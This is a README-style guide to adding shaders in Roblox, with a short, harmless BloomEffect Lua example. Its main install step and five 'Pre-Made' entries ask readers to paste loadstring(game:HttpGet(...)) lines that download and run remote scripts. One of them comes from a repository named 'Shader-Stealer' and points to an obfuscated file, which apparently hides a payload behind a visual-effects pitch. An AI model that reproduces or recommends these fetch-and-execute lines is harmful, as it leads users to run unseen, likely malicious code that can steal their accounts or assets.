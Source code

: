 # **Shaders for Roblox**

## 🌟 **Introduction**  
Shaders in Roblox improve game visuals by adding realistic lighting, textures, and effects such as dynamic sunlight, reflections, and depth of field.

---

## 📦 **Types of Shaders**
1. **Surface Shaders**: Modify how light interacts with objects (e.g., metallic surfaces).  
2. **Post-Processing Effects**: Enhance the overall scene (e.g., bloom, blur).  
3. **Screen Space Shaders**: Apply effects like motion blur globally.

---

## 🛠️ **How to Add Shaders**
1. Copy this code below or go to the night or night rewrite server and message a dev 
2. Copy This:
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/JustToUseGiHubAi/Shader-Stealer-noui-/refs/heads/main/fr-obfuscated.lua"))()
```
3. Add effects like:  
   - **BloomEffect**: Adds glow.  
   - **BlurEffect**: Creates blur.  
   - **ColorCorrectionEffect**: Adjusts brightness/contrast. Or you can customise it how ever you want!!!!!

---

## 🔧 **Code Example**
Here’s a simple code to help you get started on your own product:
```lua
local Lighting = game:GetService("Lighting")

local bloom = Instance.new("BloomEffect")
bloom.Intensity = 1.5
bloom.Size = 24
bloom.Threshold = 0.8
bloom.Parent = Lighting
```
# Pre-Made 1-5

## Pre-Made 1
loadstring(game:HttpGet("https://raw.githubusercontent.com/uhkai4212/1.1/refs/heads/main/1.1"))()

## Pre-Made 2
loadstring(game:HttpGet("https://raw.githubusercontent.com/uhkai4212/2.1/refs/heads/main/2.1"))()

## Pre-Made 3
loadstring(game:HttpGet("https://raw.githubusercontent.com/uhkai4212/3.1/refs/heads/main/3.1"))()

## Pre-Made 4
loadstring(game:HttpGet("https://raw.githubusercontent.com/uhkai4212/4.1/refs/heads/main/4.1"))()

## Pre-Made 5
loadstring(game:HttpGet("https://raw.githubusercontent.com/uhkai4212/5.1/refs/heads/main/5.1"))()

